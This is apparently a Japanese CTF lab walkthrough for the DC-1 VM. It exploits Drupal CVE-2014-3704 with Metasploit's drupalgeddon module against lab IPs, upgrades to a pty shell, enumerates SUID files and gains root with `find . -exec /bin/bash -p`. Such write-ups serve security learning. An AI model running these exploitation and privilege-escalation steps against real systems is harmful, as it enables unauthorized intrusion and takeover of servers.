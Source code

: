 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
- 20, 80, 111

### 環境変数の設定
- `export IP=192.168.56.?` 

### nmapで脆弱性を探す
- さらにnmapで脆弱性を探す。`--script vuln`オプションをつけると異常に時間がかかるので、特定のポートだけ実施する
- `nmap -p 80,111 --script vuln $IP | tee vuln.log`
- `cat vuln.log`でcve-2014-3704の脆弱性が見つかる 


### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト


### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを使うことで機能を拡張することができる。pluginには脆弱性がある場合があるので、拡張機能はチェックする


### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく
- 多分ここに表示されているmetasploitはどれも使えると思うが、ここでは上で選択したのを使っている

### (補足)searchsploitでexploitを探す
- ネットが繋がってなくても、searchsploitをダウンロードしていれば、これでも探すことができる
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える
    - 左にある番号を使って`use 番号`でもOK
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能が劣るシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする。他にも色々コマンド試してみる


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる



### システムの探索
- 波線で消しているのはwww-dataは正規のユーザではないため、調べても意味がないため
- ファイル
  - `cat /etc/passwd`
  - ~`cat .bash_history` のコマンドの履歴で何かわかるかもしれない~
  - ~`cat .ssh`~
  - `/opt`
  - `/tmp` 一時ファイルの置き場所を調べる
- コマンド
  - ~`id` 個人ユーザがroot権限でできることを調べる~
  - `uname -a` メモに貼っておく
  - `find / -writable -type f 2>/dev/null | grep -v /proc/ | grep -v /sys/`
  - ~`sudo -l`をやってみる~
  - SUIDファイルを検索
    - `find / -perm -u=s -type f 2> /dev/null`
    - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない



### SUIDファイルであるfindコマンドでrootシェルの取得
- SUIDファイルはどのユーザが実行しても所有者が実行したことになる設定
- `which find`パスを調べる
- `ls -l /usr/bin/find`
  - 実行のパーミッションがSで所有者はrootなので、このファイルを実行したらrootになれる
- GTFOBinsのWebサイトから `find`を検索
  - GTFOBinsは裏技ではなく、見落としがちで上手いこと使えるコマンド集 
- `/usr/bin/find . -exec /bin/bash -p \; -quit`
  - `find ~`でもok
  - `-exec`は見つけたファイルを実行する。\;はexecコマンドの終了を示している
  - `-p`はrootを実効ユーザにするため、`-p`がないと実ユーザのためroot権限がない、さっきと同じユーザになる
- root権限の取得
  - `id`コマンドを実行すると、uid(www-data)でeuid(root)になっている。これは実ユーザがwww-dataで実効ユーザがrootであることを示している。実効ユーザになっているのはさっきのコマンドで`-p`をつけたため。
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  


